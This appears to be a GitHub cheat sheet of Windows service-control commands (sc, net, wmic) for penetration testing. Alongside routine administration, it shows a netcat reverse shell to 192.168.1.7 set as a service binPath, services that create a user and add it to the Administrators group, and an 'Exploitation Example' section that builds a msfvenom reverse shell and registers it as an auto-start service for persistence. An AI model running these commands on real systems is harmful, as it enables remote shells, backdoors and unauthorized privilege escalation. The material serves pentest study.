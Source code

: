 # Service-Controller-Utility-Commands

## Querying Services

#### Display Information About a Specified Service
```powershell
sc query
```

#### Display Extended Information About a Service
```powershell
sc queryex type= service
```

#### Display Services of Type 'Service'
```powershell
sc query type= service
```

#### Find Specific Service States
```powershell
sc query find "STATE"
```

#### Find a Specific Service by Name
```powershell
sc query | find "Telnet"
```

#### Query a Specific Service
```powershell
sc query LanmanServer
```

---

## Service Configuration

#### Display the Configuration of a Service
```powershell
sc qc Audiosrv
```

#### Stop a Service
```powershell
sc stop Audiosrv
```

#### Start a Service
```powershell
sc start Audiosrv
```

#### Pause a Service
```powershell
sc pause Audiosrv
```

#### Resume a Paused Service
```powershell
sc continue Audiosrv
```

#### Configure Service Startup and Login Accounts
```powershell
sc config Audiosrv
```

---

## Creating and Managing Services

#### Create a New Service
```powershell
sc create nc binPath= "C:\Windows\System32\nc64.exe"
```

#### Query the Configuration of a Created Service
```powershell
sc qc nc
```

#### Query the Status of a Created Service
```powershell
sc query nc
```

#### Start the Created Service
```powershell
sc start nc
```

#### Delete a Service
```powershell
sc delete nc
```

#### Configure a Service to Run a Specific Command
```powershell
sc config nc binPath= "C:\Windows\nc64.exe 192.168.1.7 4444 -e cmd.exe"
```

#### Create a Service to Send ICMP Packets
```powershell
sc create pingme binPath= "ping 192.168.1.6"
```

#### Start the ICMP Service
```powershell
sc start pingme
```

#### Create a User Creation Service
```powershell
sc create useradd binPath="net user u1 password@123 /add"
```

#### Start the User Creation Service
```powershell
sc start useradd
```

#### Configure a Service to Add a User to Administrators Group
```powershell
sc config useradd binpath= "net localgroup administrators u1 /add"
```

#### Start the Privilege Elevation Service
```powershell
sc start useradd
```

---

## Exploitation Example

#### Generate a Reverse Shell Executable Using msfvenom
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.6 LPORT=4455 -f exe > shell.exe
```

#### Configure a Service to Execute the Shell
```powershell
sc create msfvenom_shell binPath= "C:\Windows\Temp\shell.exe"
```

#### Change a Service's Startup Type
```powershell
sc config msfvenom_shell start=auto
```
- **auto** - Automatic Startup
- **demand** - Manual Startup
- **disabled** - Disabled

#### Restart the System Immediately
```powershell
shutdown /r /t 0 /f
```

---

## Service Management Using `net`

#### Start a Service Using `net`
```powershell
net start TlntSvr
```

#### Stop a Service Using `net`
```powershell
net stop TlntSvr
```

#### Pause a Service Using `net`
```powershell
net pause TlntSvr
```

#### Resume a Paused Service Using `net`
```powershell
net continue TlntSvr
```

---

## Using `wmic` to Manage Services

#### List All Services with Details
```powershell
wmic service get name, displayname, pathname, startmode
```

#### List All Auto-Start Services
```powershell
wmic service get name, displayname, pathname, startmode | findstr /i "auto"
```

#### List All Auto-Start Services Excluding Those in C:\Windows
```powershell
wmic service get name, displayname, pathname, startmode | findstr /i "auto" | findstr /i/v "c:\windows"
```

---

## Additional Resources

#### ServiceSecurityEditor

ServiceSecurityEditor is used to maintain and manage services, allowing manual configuration of permissions for users.

[Download ServiceSecurityEditor](https://www.coretechnologies.com/products/ServiceSecurityEditor/)

#### After Download
1. Run the application.
2. Select the service you want to configure.
3. Click "Open".
4. Add a user.
5. Select the user and set the required permissions.
6. Click "Apply" and then "OK".
